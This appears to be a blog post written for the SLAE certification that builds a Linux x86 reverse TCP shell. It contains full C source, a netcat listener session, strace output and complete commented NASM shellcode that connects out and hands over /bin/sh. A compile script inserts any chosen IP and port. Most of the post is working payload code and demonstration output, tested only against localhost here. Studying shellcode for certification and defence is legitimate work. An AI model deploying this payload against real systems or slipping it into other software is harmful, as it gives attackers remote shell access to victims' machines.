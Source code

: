 ```yaml
---
title:  "[SLAE 2] Reverse TCP Shellcode"
---
```


![Logo](/assets/images/tux-root.png)

## This is the second assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) exam: building a reverse TCP shellcode. As for the previous bind tcp one, I've started with a C program that creates a reverse TCP connection:
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
 
int main() {
    int sockfd = 0;
    int ret = 0;
 
    struct sockaddr_in dest;
 
    // Create an un-named socket. returns socket descriptor
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
    memset(&dest, '0', sizeof(struct sockaddr));
    dest.sin_family = AF_INET;
    dest.sin_addr.s_addr = inet_addr("127.0.0.1"); 
    dest.sin_port = htons(8888);
 
    connect(sockfd, (struct sockaddr *)&dest, sizeof(struct sockaddr));
 
    // Duplicate stdin, stdout, stderr
    ret = dup2(sockfd, 0);
    if (-1 == ret) {
        printf("STDIN duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(sockfd, 1);
    if (-1 == ret) {
        printf("STDOUT duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(sockfd, 2);
    if (-1 == ret) {
        printf("STDERR duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    // Replace process image
    char *args[2];
    args[0] = "/bin/sh";
    args[1] = NULL;      // Needs to ne a NULL terminated list of args
 
    ret = execve(args[0], args, NULL);
    if (-1 == ret) {
        printf("Execve failed: %s\n", strerror(errno));
        return 1;
    }
 
    return 0;
}

I've then compiled the reverse shell:
?
1
$ gcc -Wall shell_reverse_tcp.c -o shell_reverse_tcp
Started the listener: 
?
1
2
$ nc -lvvp 8888
Listening on [0.0.0.0] (family 0, port 8888)
And in another terminal executed the reverse shellcode: 
?
1
$ ./shell_reverse_tcp
?
1
2
3
4
Listening on [0.0.0.0] (family 0, port 8888)
Connection from [127.0.0.1] port 8888 [tcp/*] accepted (family 2, sport 60226)
whoami
liv

To see the system calls necessary to implement this in assembly, I've used strace:
?
1
2
3
4
5
6
7
8
$ strace ./shell_reverse_tcp
...
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(8888), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
execve("/bin/sh", ["/bin/sh"], [/* 0 vars */]) = 0

Next is the commented assembly source implementing the system calls from above:
global _start   

section .text
_start:

    ; Linux Syscall Reference
    ; http://syscalls.kernelgrok.com/


    ; 1. socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = sockfd
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    push ecx        ; NULL terminate args list
    mov cl, 6       ; IPPROTO_TCP (6)
    push ecx
    xor ecx, ecx
    mov cl, 1       ; SOCK_STREAM (1) - in socket.h
    push ecx
    xor ecx, ecx
    mov cl, 2       ; PF_INET (2) - IP PROTO FAMILY
    push ecx
    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 1       ; socketcall type of call: SYS_SOCKET (1) 
    push 102
    pop eax         ; socketcall syscall
    int 0x80
    mov edx, eax    ; sockfd is returned in eax. Save into edx    

    ; 2. connect(3, {sa_family=AF_INET, sin_port=htons(8888), sin_addr=inet_addr("127.0.0.1")}, 16)
    ;struct sockaddr_in {
    ;    short            sin_family;   // e.g. AF_INET, AF_INET6
    ;    unsigned short   sin_port;     // e.g. htons(3490)
    ;    struct in_addr   sin_addr;     // see struct in_addr, below
    ;    char             sin_zero[8];  // zero this if you want to
    ;};
    ;struct in_addr {
    ;    unsigned long s_addr;          // load with inet_pton()
    ;};
    push <IP>       ; IP address
    push word <PORT>; 16 bits - port number
    push word 2     ; family - AF_INET (2)
    mov ecx, esp    ; pointer to args

    push byte 0x10  ; Address length - 16 bytes
    push ecx        ; Pointer to sockaddr_in structure
    push edx        ; sockfd from socket call

    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 3       ; socketcall type of call: SYS_CONNECT (3)
    xor eax, eax
    mov al, 102     ; socketcall syscall
    int 0x80

    ; 3. dup2(connfd, 2), dup2(connfd, 1), dup2(connfd, 0)
    push 2
    pop ecx         ; ecx - newfd
    mov ebx, edx    ; edx - connfd, ebx - oldfd
    dup_loop:
    mov al, 63      ; dup2 syscall
    int 0x80
    dec ecx
    jns dup_loop    ; exit when signed (-1)
      
    ; 4. execve("/bin/sh", ["/bin/sh"], [/* 0 vars */])
 ; PUSH the first null dword 
 xor eax, eax
 push eax

    ; PUSH //bin/sh (8 bytes) 
 push 0x68732f2f ; 'hs//'
 push 0x6e69622f ; 'nib/
 mov ebx, esp    ; EBX - 1st param - NULL terminated filename

 push eax        ; EDX - 3rd param - NULL terminated list of env variables
 mov edx, esp    ; NULL terminator must be set before setting the 2nd param!

 push ebx        ; ECX - 2nd param - array of argument strings
 mov ecx, esp

 mov al, 11      ; execve syscall
 int 0x80


The IP and port are replaced by a bash script, which does compilation and linking:
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
$ ./compile.sh 
Usage: compile.sh {ip} {port}
$ ./compile.sh 127.0.0.2 8899
[+] Replacing IP with 0x0200007f
[+] Replacing port number with 0xc322
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Cleaning ...
[+] Done!
$ nc -lvvp 8899 
Listening on [0.0.0.0] (family 0, port 8899)
$ ./shell_reverse_tcp
Connection from [127.0.0.1] port 8899 [tcp/*] accepted (family 2, sport 41801)
whoami
liv


##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
